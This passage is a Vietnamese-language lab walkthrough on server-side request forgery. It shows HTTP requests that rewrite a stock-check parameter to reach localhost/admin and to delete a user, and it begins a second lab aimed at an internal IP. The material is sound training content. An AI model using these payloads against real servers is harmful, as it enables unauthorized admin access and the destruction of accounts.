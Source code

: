 ### Ví dụ

**Lab: Basic SSRF against the local server**

Phòng lab này có một tính năng kiểm tra tồn kho (stock check) dùng để lấy dữ liệu từ hệ thống nội bộ.

Khi người dùng sử stock check thì sẽ có request như sau:

```http
POST /product/stock HTTP/2
Content-Length: 107
Content-Type: application/x-www-form-urlencoded
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Tiến hành sửa  request để chỉ định một URL cục bộ trên máy chủ:

```http
POST /product/stock HTTP/2
Content-Length: 107
Content-Type: application/x-www-form-urlencoded
stockApi=http%3a%2f%2flocalhost%2fadmin
```

Khi đó, máy chủ sẽ truy cập vào URL /admin và trả lại toàn bộ nội dung của trang admin.

Nhưng nếu bạn thao với các chức năng trên trang /admin thì sẽ không được vì sẽ bị kiểm tra quyền truy cập vì vậy ta sẽ phải thay đổi để request này được yêu cầu từ loopback:

```http
POST /product/stock HTTP/2
Content-Length: 107
Content-Type: application/x-www-form-urlencoded
stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete?username=carlos
```

## SSRF attacks against other back-end systems (Tấn công SSRF nhắm vào hệ thống back-end)

* Máy chủ ứng dụng đôi khi có thể tương tác với các hệ thống back-end nằm trong mạng nội bộ mà người dùng bên ngoài không thể truy cập.

* Các hệ thống này thường dùng địa chỉ IP riêng và được bảo vệ bởi cấu trúc mạng, nên bảo mật thường yếu hơn.

* Nếu kẻ tấn công khai thác lỗ hổng SSRF, họ có thể gửi yêu cầu gián tiếp thông qua máy chủ ứng dụng để truy cập các chức năng nhạy cảm trên hệ thống back-end, thậm chí không cần xác thực.

**Lab: Basic SSRF against another back-end system**

Trong phòng lab này cũng có chức năng stock check và có request như sau:

```http
POST /product/stock HTTP/2
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D4%26storeId%3D1
```
